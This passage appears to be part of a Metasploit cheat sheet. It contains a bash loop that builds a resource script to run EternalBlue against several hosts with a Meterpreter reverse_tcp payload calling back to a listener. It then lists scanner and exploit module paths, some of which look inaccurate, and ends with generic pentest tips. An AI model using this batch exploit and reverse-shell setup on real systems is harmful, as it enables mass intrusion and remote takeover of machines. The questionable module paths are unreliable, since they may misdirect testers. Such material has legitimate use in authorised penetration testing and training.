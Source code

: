 ### Batch Operations
```bash
# Batch exploit multiple hosts
hosts=$(echo "192.168.1.100 192.168.1.101 192.168.1.102")
for host in $hosts; do
    echo "use exploit/windows/smb/ms17_010_eternalblue" >> batch.rc
    echo "set RHOSTS $host" >> batch.rc
    echo "set payload windows/x64/meterpreter/reverse_tcp" >> batch.rc
    echo "set LHOST 192.168.1.50" >> batch.rc
    echo "run -j" >> batch.rc
done
```

## Modules Categories

### Scanner Modules
```bash
# Port scanners
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/portscan/syn

# Service scanners
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/http/http_version
use auxiliary/scanner/ftp/anonymous

# Vulnerability scanners
use auxiliary/scanner/http/cve_2021_44228_log4j
use auxiliary/scanner/http/title
```

### Exploit Modules
```bash
# Windows exploits
use exploit/windows/smb/ms17_010_eternalblue
use exploit/windows/http/tomcat_mgr_upload

# Linux exploits
use exploit/linux/http/samba_trans2open
use exploit/linux/http/awstats_configdir_exec

# Web application exploits
use exploit/multi/http/wp_cropshell
use exploit/multi/http/php_cgi_arg_injection
```

## Tips
- Keep Metasploit updated regularly
- Use workspaces to organize projects
- Document your testing procedures
- Use resource scripts for automation
- Test exploits in lab environments first
- Monitor target system stability during exploitation
- Use appropriate payloads for different scenarios
- Consider legal and ethical implications
- Backup important data before exploitation
- Combine with other tools for comprehensive assessment